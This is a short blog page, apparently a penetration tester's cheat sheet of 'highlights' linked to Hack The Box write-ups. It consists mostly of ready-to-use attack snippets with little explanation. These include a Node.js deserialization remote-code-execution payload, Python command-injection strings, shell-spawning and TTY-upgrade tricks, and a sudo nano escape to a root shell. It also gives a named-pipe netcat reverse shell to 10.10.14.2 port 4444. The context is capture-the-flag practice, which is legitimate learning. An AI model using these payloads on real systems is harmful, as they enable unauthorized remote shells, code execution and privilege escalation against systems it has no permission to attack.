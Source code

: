 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
---
```


# Node.js deserialization exploit

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec  
('uname -a', function(error, stdout, stderr)  
{ console.log(stdout) });  \n }  
()"}  
```

In this case the () is javascripts way of immediate function invokation, the first part of the code will build the function. 

# Spawn Fully Interactive TTY
```bash
$ /bin/bash # drop out of zsh b/c not compatible
# get initial terminal session
$ ctrl-z
$ stty raw -echo # - indicates disabling the stopping of the echo
$ fg 
$ reset
```

# Shell Spawn Python

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
# Python Command Injection

```python
__import__("os"); os.system("pwd")
```

# Python code injection w/import and backpiping

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
_Where ^R^X is ctrl+R and ctrl+X._

# HTB Writeups
[OpenAdmin](../../post/htb/openadmin)
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)

![test image](/img/craft/developer.png)